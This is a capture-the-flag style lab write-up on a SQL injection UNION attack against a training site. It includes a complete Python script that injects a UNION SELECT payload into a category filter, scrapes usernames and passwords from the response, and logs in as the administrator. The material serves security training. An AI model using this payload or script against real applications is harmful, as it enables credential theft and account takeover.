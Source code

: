 ```yaml
---
title: '9 SQLi Lab'
description: 'SQL injection to retrieve usernames and passwords from other tables'
---
```



## SQL injection UNION attack, retrieving data from other tables

<div style="text-align: justify;">
  This lab demonstrates how to use a SQL injection (SQLi) UNION attack to retrieve data from other tables. The vulnerable product category filter returns query results in the application's response. Using techniques learned in previous labs, I enumerated the `users` table and extracted all usernames and passwords. The retrieved administrator credentials were then used to log in and complete the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Determine the number of columns and which return text (e.g. `'+UNION+SELECT+'abc','def'--`).
- Use a `UNION SELECT` to pull `username` and `password` from the `users` table.
- Parse the HTML response to extract all credentials.
- Attempt login as the `administrator` user to solve the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional, comment out if not needed)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_sqli(url, payload):
    """Exploit SQLi and extract credentials table."""
    full_url = url.rstrip("/") + payload
    res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    creds = {}

    rows = soup.find_all("tr")
    for row in rows:
        cols = row.find_all(["th", "td"])
        if len(cols) == 2:
            username = cols[0].get_text(strip=True)
            password = cols[1].get_text(strip=True)
            creds[username] = password

    return creds

def login(url, username, password):
    """Log in using CSRF token and credentials, then check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    # Step 1: Get CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login form
    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }

    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")

        # Step 3: One last GET on base URL
        base_res = session.get(url, verify=False, proxies=proxies)
        base_res.raise_for_status()

        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved yet.")
            return False
    else:
        print("[-] Login failed.")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    payload = "/filter?category='+UNION+SELECT+username,+password+FROM+users--"

    print("[*] Exploiting SQL injection...")
    creds = exploit_sqli(url, payload)

    if not creds:
        print("[-] No credentials found!")
        sys.exit(1)

    print("[*] Extracted credentials:")
    for user, pw in creds.items():
        print(f"   {user} : {pw}")

    if "administrator" in creds:
        print("[*] Trying to log in as administrator...")
        login(url, "administrator", creds["administrator"])
    else:
        print("[-] Administrator account not found.")

if __name__ == "__main__":
    main()
```